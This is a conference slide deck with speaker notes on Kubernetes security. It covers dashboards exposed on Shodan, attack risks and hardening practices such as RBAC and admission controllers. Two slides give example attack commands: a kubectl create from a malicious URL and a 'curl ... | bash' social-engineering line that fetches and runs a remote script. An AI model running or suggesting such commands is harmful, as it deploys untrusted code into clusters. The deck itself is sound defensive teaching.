


# [fit] Kubernetes security

## Lewis Denham-Parry

## @denhamparry

---

# [fit] Inspiration

^
I'm not a security person.
Met a chap called Andy at Warpigs.
I was drunk, he was making slides in bash.
I looked at one of his talks.

---

# [fit]https://youtu.be/iWkiQk8Kdk8

---


---



---



---

# [fit] Thank you

## @sublimino

---

# Least Privileged

---

# Tesla

---


---

# [fit] kubernetes dashboard

---


---

# 2/20/2018

^
WTF is this date?

---

# 20/2/2018

^
Nice story Lewis.
This is over a year ago.

---

# [fit] Pop quiz

^
Who thinks that this is still an issue?

---

# [fit] https://www.shodan.io/search?query=KubernetesDashboard

^
Go to browser

---

# 😯

^
So how do we feel about this.

---

# [fit] First reaction

---

# Don't use kubernetes

^
This is more of a joke.
We just need to be more secure.

---

# Potential risks

^
To be secure, we need to know how.
So what are our risks.

---

# Exfiltration of sensitive data

---

# [fit] Elevate privileges
# [fit] inside Kubernetes to 
# [fit] access all workloads

---

# [fit] Potentially Gain root access 
# [fit] to the Kubernetes worker nodes

---

# [fit] Perform lateral 
# [fit] network movement 
# [fit] outside the cluster

---

# [fit] Run compromised Pod

`kubectl create -f http://Insert_Malicious_URL_here/FakeApp.yaml`

---

# Social Engineering

## Example

---

```
$ curl SRI-Tools.com/fakeapp.sh | bash
$ Kubectl create –f http://SRI-Tools.com/k8s/FakeApp.yaml
```

---


---

# Kubernetes best practices

---

# [fit] https://kubernetes.io/docs/tasks/administer-cluster/securing-a-cluster/

Authentication
Authorisation (RBAC)
Network Segmentation
PodSecurityPolicy
Encrypt Secrets
Audit Everything
Admission Controllers

---

# [fit] Admission Controller

^
Operates on the API server
Intercepts requests prior to persistence of the object to the etcd DB
but after the request has been authenticated and authorized
Can only be configured by the cluster administrator

---

# [fit] It's just an API

^
Lets break Kubernetes down.
Away from everything else, we connect to an API.
Would you have an open API?

---


* AlwaysPullImages
* DenyEscalatingExec
* PodSecurityPolicy
* ImagePolicyWebhook
* NodeRestriction
* PodNodeSelector
* ResourceQuota

---
